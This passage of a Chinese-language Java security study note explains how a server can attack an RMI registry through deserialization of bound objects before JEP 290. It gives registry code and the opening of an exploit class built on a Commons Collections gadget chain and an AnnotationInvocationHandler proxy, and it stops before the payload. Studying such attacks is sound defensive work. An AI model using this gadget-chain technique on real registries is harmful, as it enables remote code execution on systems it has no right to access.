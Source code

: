 ```yaml
---
created: '21/11/18'
title: 反序列化之RMI
tags:
  - java
  - java安全
---
```

# 反序列化之RMI
我们知道RMI在整个调用流程时都会出现序列化和反序列化，那么我们就可以从中利用反序列化漏洞

## 攻击方法
### 服务端攻击注册中心
当服务端在bind时，实际上也是向注册中心序列化传输对象，注册中心再将其反序列化，那么我们就可以利用这个漏洞来攻击注册中心(JEP 290之前)。

注册中心代码:
```java
package top.longlone.RMIStudy;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class RMIRegistry {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(2099);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
        while (true) ;
    }
}
```
服务器构造一个恶意对象并将其传输给注册中心，这里需要注意的是这个对象需要实现了Remote接口，所以我们这里使用了动态代理的技术，将恶意的类套在AnnotationInvocationHandler的map中，再动态代理实现Remote接口使用:
```java
package top.longlone.RMIStudy;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class HelloServer {
    public static void main(String[] args) throws Exception {
        try {
```